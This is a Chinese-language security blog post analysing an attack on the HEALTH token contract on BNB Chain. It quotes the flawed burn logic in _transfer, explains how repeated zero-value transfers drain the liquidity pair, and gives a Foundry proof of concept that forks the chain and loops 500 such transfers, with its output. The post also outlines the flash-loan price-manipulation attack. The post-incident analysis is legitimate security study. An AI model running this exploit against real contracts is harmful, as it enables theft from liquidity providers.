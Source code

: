```yaml
---
title: "HealthToken 攻击案例分析"
date: 2023-04-27T13:08:06+08:00
draft: false
author: yinhui
categories: [security]
tags: [defi] 
---
```


HEALTH Token 攻击案例分析

<!--more-->

## 漏洞分析

攻击 tx: https://bscscan.com/tx/0xae8ca9dc8258ae32899fe641985739c3fa53ab1f603973ac74b424e165c66ccf

被攻击合约: [0x32B166e082993Af6598a89397E82e123ca44e74E](https://bscscan.com/address/0x32B166e082993Af6598a89397E82e123ca44e74E) 

合约中的`_transfer`函数如下:

```solidity
    function _transfer(address from, address to, uint256 value) private {
        require(value <= _balances[from]);
        require(to != address(0));
        
        uint256 contractTokenBalance = balanceOf(address(this));

        bool overMinTokenBalance = contractTokenBalance >= numTokensSellToAddToLiquidity;
        if (
            overMinTokenBalance &&
            !inSwapAndLiquify &&
            to == uniswapV2Pair &&
            swapAndLiquifyEnabled
        ) {
            contractTokenBalance = numTokensSellToAddToLiquidity;
            //add liquidity
            swapAndLiquify(contractTokenBalance);
        }
        if (block.timestamp >= pairStartTime.add(jgTime) && pairStartTime != 0) {
            if (from != uniswapV2Pair) {
                uint256 burnValue = _balances[uniswapV2Pair].mul(burnFee).div(1000);
                _balances[uniswapV2Pair] = _balances[uniswapV2Pair].sub(burnValue);
                _balances[_burnAddress] = _balances[_burnAddress].add(burnValue);
                if (block.timestamp >= pairStartTime.add(jgTime)) {
                    pairStartTime += jgTime;
                }
                emit Transfer(uniswapV2Pair,_burnAddress, burnValue);
                IPancakePair(uniswapV2Pair).sync();
            }
        }
        uint256 devValue = value.mul(devFee).div(1000);
        uint256 bValue = value.mul(bFee).div(1000);
        uint256 newValue = value.sub(devValue).sub(bValue);
        _balances[from] = _balances[from].sub(value);
        _balances[to] = _balances[to].add(newValue);
        _balances[address(this)] = _balances[address(this)].add(devValue);
        _balances[_burnAddress] = _balances[_burnAddress].add(bValue);
        
        emit Transfer(from,to, newValue);
        emit Transfer(from,address(this), devValue);
        emit Transfer(from,_burnAddress, bValue);
    }
```

其中有一段逻辑是: 每进行一笔转账,就会销毁掉一部分token, 也就是将uniswapV2Pair的余额减去一部分,将_burnAddress的余额增加一部分.

```solidity
            if (from != uniswapV2Pair) {
                uint256 burnValue = _balances[uniswapV2Pair].mul(burnFee).div(1000);
                _balances[uniswapV2Pair] = _balances[uniswapV2Pair].sub(burnValue);
                _balances[_burnAddress] = _balances[_burnAddress].add(burnValue);
                if (block.timestamp >= pairStartTime.add(jgTime)) {
                    pairStartTime += jgTime;
                }
                emit Transfer(uniswapV2Pair,_burnAddress, burnValue);
                IPancakePair(uniswapV2Pair).sync();
            }
```

但是销毁的量并没有依据transfer时的value进行计算, 而是根据`_balances[uniswapV2Pair].mul(burnFee).div(1000)`进行计算的, 假如`burnFee`是`1`, 那么任意数量的转账都会销毁uniswapV2Pair余额的千分之一, 哪怕转账数量是0.

这就导致了一个严重的bug: 重复进行`value`为0的转账, 用户手中的币并不会减少, 但`uniswapV2Pair`的余额却在不断减少, 这就导致了 pair 中 token0 (WBNB) 与 token1(HEALTH token)的比率不断变化, 也就是相比于WBNB, HEALTH token的价格越来越高. 这就形成了价格操纵.



## POC

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.10;

import "forge-std/Test.sol";

interface IERC20 {
    function decimals() external view returns (uint8);

    function symbol() external view returns (string memory);

    function balanceOf(address owner) external view returns (uint256);

    function transfer(address to, uint256 value) external returns (bool);
}

interface IPancakePair {
    function token0() external view returns (address);

    function token1() external view returns (address);

    function getReserves()
        external
        view
        returns (uint112 reserve0, uint112 reserve1, uint32 blockTimestampLast);
}

IERC20 constant HealthToken = IERC20(
    0x32B166e082993Af6598a89397E82e123ca44e74E
);

IERC20 constant WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);

IPancakePair constant pancakePair = IPancakePair(
    0xF375709DbdE84D800642168c2e8bA751368e8D32
);

contract Hack is Test {
    function setUp() public {
        vm.createSelectFork("theNet", 22337400); //bsc
    }

    function testPoc() public {
        console2.log("token0 is:", IERC20(pancakePair.token0()).symbol());
        console2.log("token1 is:", IERC20(pancakePair.token1()).symbol());

        (uint112 token0, uint112 token1, ) = pancakePair.getReserves();
        emit log_named_decimal_uint(
            "[before]token0",
            token0,
            IERC20(pancakePair.token0()).decimals()
        );
        emit log_named_decimal_uint(
            "[before]token1",
            token1,
            IERC20(pancakePair.token1()).decimals()
        );

        // 连续0转账500次
        for (uint i = 0; i < 500; i++) {
            HealthToken.transfer(address(this), 0);
        }

        (token0, token1, ) = pancakePair.getReserves();
        emit log_named_decimal_uint(
            "[after]token0 ",
            token0,
            IERC20(pancakePair.token0()).decimals()
        );
        emit log_named_decimal_uint(
            "[after]token1 ",
            token1,
            IERC20(pancakePair.token1()).decimals()
        );
    }
}

```

输出:

```sh
[PASS] testPoc() (gas: 11524943)
Logs:
  token0 is: HEALTH
  token1 is: WBNB
  [before]token0: 62563539.073327292627431307
  [before]token1: 38.502835300011026965
  [after]token0 : 37937212.810065723981756912
  [after]token1 : 38.502835300011026965
```

以循环500次为例, pair中的HEALTH token数量减少了接近一半, 也就是价格涨了接近一半.

在实际攻击中, 攻击者先利用闪电贷贷款了WBNB, 然后用WBNB swap了一些 HEALTH, 然后操作价格, 再高价将手中的HEALTH通过swap卖出而获利.

